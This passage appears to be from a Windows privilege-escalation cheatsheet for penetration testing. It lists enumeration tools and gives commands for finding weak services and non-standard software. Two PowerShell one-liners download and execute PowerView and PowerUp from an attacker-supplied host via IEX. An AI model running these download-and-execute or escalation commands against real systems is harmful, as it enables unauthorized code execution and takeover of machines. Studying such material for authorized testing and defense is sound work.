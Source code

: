 * WinPEAS - https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/winPEAS
* JAWS -  https://github.com/411Hall/JAWS
* Seatbelt - https://github.com/GhostPack/Seatbelt
* Sherlock - https://github.com/rasta-mouse/Sherlock
* Watson (newer .Net replacement for Sherlock) - https://github.com/rasta-mouse/Watson
* PowerUP - https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1


PS Enumeration tools (check available commands at bottom of the file):
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<your-ip>/PowerView.ps1');
```

PS Automatic enumeration:
```powershell
IEX (New-Object Net.WebClient).DownloadString('http://<your-ip>/PowerUp.ps1'); Invoke-AllChecks
```

## Installed Software

You are usually looking for weak folder/file permissions on installed software or buffer overflows in non-standard software.

In ExploitDB use the filters for "Windows" and "Local" and search for "privesc".

To see running applications:
```powershell
tasklist
wmic process list full
```

To find non-standard installed applications:
```powershell
.\seatbelt.exe NonstandardProcesses
.\winPEASany.exe quiet procesinfo
```

After finding interesting applications use ExploitDB to search for matching exploits.


## Service Exploits

* See [Service Exploits cheatsheet](./windows/services.md)

List running services:
```default
net start
sc query
```

List all services (including not running):
```default
sc query type= service state= all
```

Check write access on all Windows services (also check your irregular user groups):
```default
.\accesschk.exe /accepteula -uwcqv "Authenticated Users" *
.\accesschk.exe /accepteula -uwcqv "Everyone" *
```
